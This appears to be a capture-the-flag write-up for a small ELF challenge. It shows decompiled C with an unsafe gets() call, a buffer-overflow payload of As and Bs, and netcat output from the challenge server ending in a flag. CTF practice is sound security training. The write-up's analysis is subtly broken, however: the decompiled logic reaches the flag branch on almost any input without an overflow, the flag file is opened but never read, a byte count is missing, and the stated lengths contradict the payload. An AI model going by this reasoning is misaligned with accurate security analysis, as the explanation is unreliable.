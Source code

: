 Challenge Description: 

The TV is supposed to be buffering. But it isn't doing that now. Strange.
Author: omelette_keychain

File(s) given: let-the-tv-buffer (ELF file)

1. Analyse the file with Ghidra. main() shows this:

    ```int main(void) {
        char local_68[70];
        char local_22[10];
        FILE *local_18;
        char *local_10;

        local_10 = "-3735928559";
        puts("The TV usually keeps buffering. It isn't doing that now for some reason. I dunno why :(");
        puts("I need to show my cool TV fixing skills for the upcoming science fair.");
        puts("I wonder what I can do to put it back to how it originally was... Any ideas? \nReply >> ");
        gets(local_22);

        if (strcmp(local_22, local_10) == 0) {
            puts("Hmm. It doesn't work. Nice try though! :)");
        } else {
            local_18 = fopen("flag.txt", "r");
            puts("The TV is back to buffering. Thanks!");
            puts("Wait. It is showing some sorta secret code...");

            if (local_18 == NULL) {
                printf("Error in opening the flag file. Flag file might be missing :(\n");
            }

            gets(local_68 + 0x3b); // potential buffer overflow vulnerability
            puts(local_68);
        }

        exit(0);
    }```

2. We can see this suspicious line ```gets(local_68 + 0x3b);```
local_68 is a buffer with 70 bytes, and 0x3b is 59 in decimal. So ```gets(local_68 + 0x3b)``` starts writing at byte 59, leaving only 11 bytes until the end of the buffer.

However, gets() reads an entire line of user input without any size limit, meaning if the user enters more than 11 bytes, it will overwrite memory beyond local_68. So we can tell that this challenge is about **buffer overflow**!

```local_68:  [ 0 ............ 58 ][59 60 61 .... 69][overflow → ???]```
                      ^                ^
                   start          end of buffer

We also see that the condition for printing the flag is dependent on local_10 and local_22. local_10 already has a fixed value, but local_22 is just a buffer with 10 bytes. Hence we just need to make the strcmp() fail by corrupting local_22 to get the flag.

3. This means that we just need a payload that is at least bytes long (11 to fill up local_68, and the rest to corrupt local_22). For me, I used:
Payload: AAAAAAAAAABBBBBBBB
         ^         ^
        10A      8B (local_22)

It worked:
```└─$ nc 43.205.113.100 8370
    The TV usually keeps buffering. It isn't doing that now for some reason. I dunno why.
    I need to show my cool TV fixing skills for the upcoming science fair!
    I wonder what i can do to put it back to how it originally was... Any ideas? 
    Reply >> 
    AAAAAAAAAABBBBBBBB
    The TV is back to buffering! Thanks!
    ...wait. It is showing some sorta secret code.
    shaktictf{@nd_th@t's_h0w_th3_buff3r_0v3rfl0w3d_tv_c00k3d!}```
